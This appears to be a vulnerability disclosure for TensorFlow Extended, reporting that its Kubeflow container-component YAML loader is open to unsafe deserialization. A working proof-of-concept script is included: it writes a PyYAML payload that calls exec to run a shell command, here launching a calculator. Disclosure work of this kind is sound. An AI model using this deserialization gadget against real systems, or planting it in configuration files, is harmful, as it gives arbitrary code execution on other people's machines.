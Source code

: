 # Description

`TensorFlow Extended (TFX)` is a Google-production-scale machine learning platform based on TensorFlow. It provides a configuration framework to express ML pipelines consisting of TFX components.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install tfx
```

### Run exploit.py
```
import os
#os.sysem('pip3 install tfx')
from tfx.extensions.experimental.kfp_compatibility import kfp_container_component
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
kfp_container_component.load_kfp_yaml_container_component('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
